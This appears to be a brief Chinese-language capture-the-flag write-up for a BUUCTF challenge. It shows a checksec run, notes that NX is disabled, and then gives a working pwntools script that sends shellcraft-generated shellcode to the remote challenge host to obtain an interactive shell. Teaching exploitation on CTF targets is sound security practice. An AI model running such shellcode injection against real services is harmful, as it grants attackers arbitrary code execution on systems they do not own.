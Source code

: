 ### ShellCode 注入

话不多说，直接上题（BUUCTF）

![](https://pic1.imgdb.cn/item/67b4262dd0e0a243d4006f2e.png)

先 checksec

![](https://pic1.imgdb.cn/item/67b426a2d0e0a243d4006f43.png)

无法反编译为伪代码，分析汇编

![](https://pic1.imgdb.cn/item/67b4265dd0e0a243d4006f33.png)

因为没开 NX ，所以可以直接注入 shellcode 执行任意代码

```python
from pwn import *

p = remote("node5.buuoj.cn",25019)

context(arch = 'amd64', os = 'linux')
shellcode = asm(shellcraft.sh())

p.sendline(shellcode)
p.interactive()
```

![](https://pic1.imgdb.cn/item/6859450458cb8da5c867f8c3.png)

成功拿到 flag

![](https://pic1.imgdb.cn/item/67b42715d0e0a243d4006f5d.png)